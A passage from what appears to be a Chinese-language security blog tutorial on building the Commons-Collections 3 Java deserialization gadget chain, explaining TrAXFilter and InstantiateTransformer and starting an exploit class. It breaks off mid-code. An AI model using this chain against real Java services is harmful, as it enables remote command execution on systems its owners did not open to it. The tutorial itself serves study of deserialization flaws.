![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/FindNewTransformer.png)

- 这里主要是找到了四个，我们一个个讲解一下为什么是 `TrAXFilter` 而不是其他的。

Process 这个在 main 里面，是作为一般对象用的，所以不用它。

第二个 `getOutProperties`，是反射调用的方法，可能会在 fastjson 的漏洞里面被调用。

TransformerFactoryImpl 不能序列化，如果还想使用它也是也可能的，但是需要传参，我们需要去找构造函数。而它的构造函数难传参。

最后，`TrAXFilter`，它也是不能序列化的，但是我们去到它的构造函数看，是有搞头的。

![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/TrAXFilterCode.png)

这个类的构造函数中有这一条语句，所以我们只要执行这个类的构造函数即可命令执行。

JAVA

```
_transformer = (TransformerImpl) templates.newTransformer();
```

CC3 这里的作者没有调用 `InvokerTransformer`，而是调用了一个新的类 `InstantiateTransformer`。

- `InstantiateTransformer` 这个类是用来初始化 `Transformer` 的，我们去找 `InstantiateTransformer` 类下的 `transform` 方法。

完美契合我们的需求！

![img](https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/InstantiateTransformer.png)

接着，来构造 EXP

### 2. CC3 链构造 EXP

首先，我们后半段的命令执行是不变的，也就是 TemplatesImpl 的 EXP 是不变的。

- 我们先编写后半部分链子的 EXP

`InstantiateTransformer` 类这里的传参我们去看一下，要求传入如此的参数。

JAVA

```
public InstantiateTransformer(Class[] paramTypes, Object[] args) {  
    super();  
 iParamTypes = paramTypes;  
 iArgs = args;  
}
```

那我们这里传入 `new Class[]{Templates.class}` 与 `new Object[]{templates}` 即可

完整的后半部分链子的 EXP

JAVA

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.functors.InstantiateTransformer;  
  
import javax.xml.transform.Templates;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
  
// CC3 链最终 EXPpublic class CC3FinalEXP {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
```